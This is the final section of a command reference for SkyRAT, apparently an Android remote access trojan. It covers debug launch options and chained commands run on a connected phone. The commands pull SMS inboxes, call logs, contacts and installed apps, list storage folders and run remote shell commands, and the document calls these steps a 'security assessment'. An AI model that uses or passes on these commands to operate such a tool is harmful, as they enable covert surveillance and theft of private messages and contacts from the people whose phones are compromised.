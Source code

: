### **Debugging Commands**
```bash
# Enable debug mode
python3 skyrat.py --shell -i IP -p PORT --debug

# Check command syntax
SkyRAT:/> help

# Test basic connectivity
SkyRAT:/> getIP
```

## 🔗 Command Chaining and Automation

### **Sequential Commands**
```bash
# Example testing sequence
SkyRAT:/> deviceInfo
SkyRAT:/> getIP
SkyRAT:/> getSMS inbox
SkyRAT:/> getCallLogs
SkyRAT:/> getContacts
SkyRAT:/> getApps
```

### **File System Exploration**
```bash
# Systematic file system exploration
SkyRAT:/> ls /
SkyRAT:/> ls /sdcard
SkyRAT:/> ls /system/app
SkyRAT:/> ls /data/app
```

### **Security Assessment Sequence**
```bash
# Complete security assessment
SkyRAT:/> deviceInfo          # Device profiling
SkyRAT:/> getApps             # Application inventory
SkyRAT:/> getSMS inbox        # Communication analysis
SkyRAT:/> getCallLogs         # Call pattern analysis
SkyRAT:/> shell ps aux        # Process analysis
SkyRAT:/> netstat             # Network analysis
```

---

**This completes the comprehensive SkyRAT command reference. For usage examples and tutorials, see the [Usage Manual](usage.md) and [Examples](../examples/).**